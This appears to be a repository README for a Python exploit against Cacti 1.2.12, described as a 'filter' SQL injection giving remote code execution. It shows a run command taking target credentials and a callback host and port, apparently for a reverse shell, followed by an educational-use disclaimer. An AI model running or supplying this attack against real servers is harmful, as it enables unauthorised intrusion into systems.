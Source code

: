 # Cacti 1.2.12 - 'filter' SQL Injection / Remote Code Execution 

Remote Code Exectuion of Cacti 1.2.12 using Python

## Getting Started

### Executing program

* Using python3
```
python3 cacti.py -t http://exploitcacti.blah -u username -p password -lhost 10.10.10.1 -lport 1337
```

## Help

Help prompt
```
python3 cacti.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.


